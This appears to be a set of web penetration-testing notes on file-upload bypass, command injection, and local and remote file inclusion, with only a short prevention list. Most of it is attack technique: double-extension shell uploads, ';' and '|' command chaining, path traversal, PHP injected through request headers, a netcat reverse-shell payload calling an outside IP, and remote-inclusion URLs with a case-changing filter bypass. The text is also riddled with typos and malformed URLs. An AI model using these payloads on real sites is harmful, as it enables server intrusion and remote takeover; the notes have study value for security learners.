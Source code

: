 ### File uploads :

- Check the website for the feature of uploading files

- Test the uploading feature with the expected file type

- Try uploading a different type of file and see the output of the process

- Upload a shell to the application . __The shell has to be inthe same langugae the website is coded in__


__Tools can be used__


- __Weavely:__ generates a php payloads 

&nbsp;
__Advanced Fileuploads___

- Upload the allowable file to the web and intercept with the required file. [tampering the header]

- To bypass the file extension filter, add the jpg or any allowable exentensions at the end of the shell EX:" shell.php.jpg


__Prevenntion__

- Check for the type of file 

- Check foe the extension of the file 

- Analyze the contents of the file and recreate them 

&nbsp;
&nbsp;
### Code Execution:

- Test the website by submitting simple command as __ls__ for linux and __dir__ for windows , if it executes, it means that there is code execution vulnerability

- use semi-colod __;__ to separate the commands __EX: https:www.//site.com/index.php; ls__

- If the above command did not do anything, it could be as a result of command filtering on the applcation.

- Sometimes the semicolon does not work, piping __|__ might work work to separate the commands __EX: https:www.//site.com/index.php | ls__

&nbsp;
&nbsp;
### Local File Inclusion:

-  is an exploit that allows attacker to browser any file on the server

- Discovering type of vulnerability would be trhough browsing or spidering the web application, EX: www.ste.com/?page=iclude.php

  The URL shows that there a page is begining called with the paging URl == __?page=inlcude.php__

- Exploiting this vulnerability would be through going back into the root directory and look for important files 

- It is important to note that having many path traversal won't affect the validity of the url :

  For example : if the path to the root directory is 3 ../../../ path traversal , putting 5 won't effect the vaility of the path, you can still access the root directory. Therefore, always include more ../ to ensure getting to the root directory
  
&nbsp;  
__Advanced Technique for LFI__

- In advanced techniques for LFI, a tampering the head of the request is one of the essential thigs.

- User-agents, language and Accept can be modified through BurpSuite include the required shell commnads

__Ex: <?phpinfo();?>__ 

- __Shell Example:__ 

__<?passthru('nc -e /bin/sh 10.25.26.74 6666');?>__

- The above shell exploited the local innlusion vulnerability and use it to get access to the whole application 

&nbsp;
__Ex:Injectablable paths__

- Try to inject one of the below paths. If it runs means you can execute a shell on the application

    >> /proc/self/environ
    
    >> /var/log/auth.log &nbsp; | auth.log is a log file that contains all the authentication attempts to the server
    
    >> /var/log/apache2/access.log
    
 
 ### Remote File Inclusion:
 
 - The exploiting allows the attacker to call the shell file remote to execute on the application 
 

- It is important to note that when saving the payload or shell is to save it as txt file instead of anyother extension to enbale the 
  excution on the targeted web application. if attacker keeps it as php or py, the payload or shell will execute on the attacker machine   instead of the targeted machine

__Ex: https://www.site.com/?page=http://www.newsite.com/reverse.txt__

__Ex: https://www.site.com/?page=http://www.newsite.com/reverse.txt?__ | sometimes question mark__?__ is needed at the end of the link t   to execute as php


__Advanced Techniques:__


- Sometimes the application is using filters that pervernt http or forward slash from executing , try to play with the cased of the __http__

Ex: https://www.site.com/?page=HtTP://www.newsite.com/reverse.txt


